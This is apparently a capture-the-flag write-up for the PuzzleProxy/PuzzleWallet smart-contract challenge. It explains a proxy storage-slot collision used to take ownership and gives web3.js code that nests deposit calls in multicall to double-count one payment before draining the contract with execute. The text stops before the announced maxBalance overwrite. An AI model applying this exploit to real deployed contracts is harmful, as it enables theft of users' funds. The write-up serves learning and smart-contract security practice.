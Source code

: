 ## Description
In PuzzleProxy through proposeNewAdmin passing the address, then through the proxy call addToWhitelist, and since PuzzleWallet is called through deoegatecall then owner == pendingAdmin

Next change slot 1 - maxBalance. To do this, we need to reset the contract balance to 0.

To do this, we need to call the execute function. We need to bypass depositCalled for this multicall[deposit, multicall[deposit]]

It was interesting to do via web3js

```
const depositAbi = {
"constant": false,
"inputs": [],
"name": "deposit",
"outputs": [],
"payable": true,
"stateMutability": "payable",
"type": "function"
};
const depositData = web3.eth.abi.encodeFunctionCall(depositAbi, []);
const multicallAbi = {
"constant": false,
"inputs": [
{
"name": "data",
"type": "bytes[]"
}
],
"name": "multicall",
"outputs": [],
"payable": true,
"stateMutability": "payable",
"type": "function"
};
const innerMulticallData = web3.eth.abi.encodeFunctionCall(multicallAbi, [[depositData]]);

const contract2 = new web3.eth.Contract(contract.abi, contract.address);

await contract2.methods.multicall([depositData, innerMulticallData]).send({
from: player,
value: web3.utils.toWei('0.001', 'ether')
});

await contract.execute(player,2000000000000000,"0x")

await web3.utils.toBN(player).toString();
```